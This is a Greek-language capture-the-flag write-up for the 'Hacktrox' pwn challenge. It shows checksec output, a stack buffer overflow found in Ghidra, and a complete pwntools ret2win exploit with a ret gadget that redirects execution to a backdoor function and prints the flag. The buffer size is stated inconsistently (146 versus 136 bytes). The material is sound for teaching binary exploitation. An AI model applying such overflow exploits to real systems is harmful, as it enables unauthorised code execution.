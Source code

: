 # Hacktrox

| Δοκιμασία | 	Hacktrox |
| :------- | :----- |
| Δυσκολία | Εύκολη |
| Κατηγορία | Pwn |
| Λύσεις | 3 |
| Πόντοι | 595 |

### Επισκόπηση Δοκιμασίας

Δημιούργησε τα πιο χακερίστικα κείμενα που είδες ποτέ με το Hacktrox.

Το πρόγραμμα μας ζητάει το input μας και μετατρέπει το κείμενο που του δίνουμε Χακερίστικο, συγκεκριμένα αλλάζει τα συγκεκριμένα γράμματα σε αριθμούς. Πχ το "α" με το 4 το "ε" κτλπ.


```
-=[ Hacktrox 01010 ]=-
         - Version 1.0

~ Because Text Should Feel Like a Hacker's Playground!

Insert text > This is a hacking test

Original text: This is a hacking test

Hacktrox result: Th15 15 4 h4ck1ng t35t

Thank you for using our app x)
```

# Επίλυση Δοκιμασίας

### Έλεγχος του αρχείου 

Αρχικά αφού δούμε τη λειτουργία του binary βλέπουμε λεπτομέρειες για το executable με την εντολή `file`.

```bash
file binary 
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=68cfe9ca2ff5f86d10ce14ea570df3dc5399a0c7, for GNU/Linux 3.2.0, not strippe
```
- Dynamically linked 
  - Όταν ένα εκτελέσιμο πρόγραμμα είναι "dynamically linked" (δυναμικά συνδεδεμένο), αυτό σημαίνει ότι χρησιμοποιεί δυναμική σύνδεση με βιβλιοθήκες κατά την εκτέλεσή του. Αντί να ενσωματώνει όλο τον κώδικα των βιβλιοθηκών που χρησιμοποιεί απευθείας στο εκτελέσιμό του, το πρόγραμμα δεσμεύει δυναμικά τις βιβλιοθήκες αυτές κατά την εκτέλεση.   
- not stripped
  - Όταν το εκτελέσιμο πρόγραμμα είναι "not stripped" ουσιαστικά δεν αφαιρεί την πληροφορία από τον κώδικά του. Αυτή η πληροφορία περιλαμβάνει συνήθως συμβολικά ονόματα, σύμβολα, και άλλες πληροφορίες που χρησιμοποιούνται κατά την ανάπτυξη και την αποσφαλμάτωση του κώδικα

Έπειτα ελέγχουμε τα security mitigations. Αυτά που μας ενδιαφέρουν για το συγκεκριμένο είναι το canary και το pie τα οποία είναι disabled.

```bash
checksec --file binary 
[*] './binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
- No canary
  - Ο όρος "canary" αναφέρεται στον "canary value" ή "stack cookie" που είναι ένα τυχαίο ή προκαθορισμένο αριθμητικό πεδίο που εισάγεται στον κώδικα μιας εφαρμογής. Αυτή η τεχνική είναι απερνεργοποιμένη και δεν θα μπορεί να μας εμποδίσει αν υπάρξει υπερχίληση μίας μεταβλητής στη μνήμη.
- No pie
  - Αυτό σημαίνει ότι το αρχείο θα φορτώνεται κάθε φορά στις ίδιες διεύθυνση μνήμης, αυτό σημαίνει ότι πάντα ξέρουμε που θα βρίσκονται οι συναρτήσεις του εκτελέσιμου προγράμματος.

### Στατική ανάλυση του κώδικα σε decomplier (ghidra)

Στο παρακάτω screenshot μπορούμε να δούμε ότι έχουμε ένα buffer overflow bug, καθώς έχουμε ένα buffer me 146 bytes length και μας αφήνει να δώσουμε inpupt ίσο με 180 bytes. Ο σκοπός μας είναι να πανωγράψουμε τον program counter με μία διεύθυνση μιας χρήσιμης συνάρτησης. Ευτυχώς για εμάς υπάρχει μια συνάρτηση που λέγεται backdoor και μας εμφανίζει τη σημαία.

![bof](assets/bof.png)

![win](assets/win.png)

Συνοψίζοντας, πρέπει να βρούμε το padding μέχρι να φτάσουμε στον program counter και να του δώσουμε την επιθυμητή τιμή (τη θέση μνήμης της συνάρτησης backdoor).

Το padding στη συγκεκριμένη περίπτωση μπορούμε να το υπολογίσουμε με το μάτι καθώς ειναι 136 ο buffer +8 bytes για το local_10 +8 bytes o RBP οπότε στο σύνολο 152 bytes. Τα επόμενα 8 θα είναι τα bytes του program counter(rip).

Ενναλακτικά με έναν debugger(gdb) με extension `pwnbdg` ή οπουδήποτε άλλο. Δίνοντας μια μεγάλη αλυσίδα από χαρακτήρες με τη χρήση του `cyclic <num_of_chars>` και μετά με τη χρήση του `cyclic -l` και τα bytes που είναι πάνω στον RSP. 

![rip-overwrite](assets/cyclic.png)

### Τελικό exploit

Χρησιμοποιώντας την βιβλιοθήκη pwntools μπορούμε να γράψουμε το τελικό exploit για local exploiataion καθώς και για remote.

### Warning!

Για να δουλέψει remotely το exploit πρέπει να συμπεριλάβουμε ένα ret gadget για το stack allignment περισσότερες πληροφορίες [εδώ](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment). 

Για να βρούμε ένα τέτοιο gadget μπορούμε να χρησιμοποιήσουμε το `ROPgadget` και συγκεκριμένα την εντολή: `ROPgadget --binary <name_of_the_executable> | grep ret`

```python

#!/usr/bin/python3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exe = './binary'

elf = context.binary = ELF(exe, checksec=False)

# Start program
io = start()

padding = 152*b"A"
win = p64(elf.sym.backdoor)
ret = p64(0x000000000040101a)

payload = padding + ret + win

io.sendline(payload)


io.interactive()
```


# Σημαία

`FLAG{h4cky_t3xt_f0r_th3_w1n}`





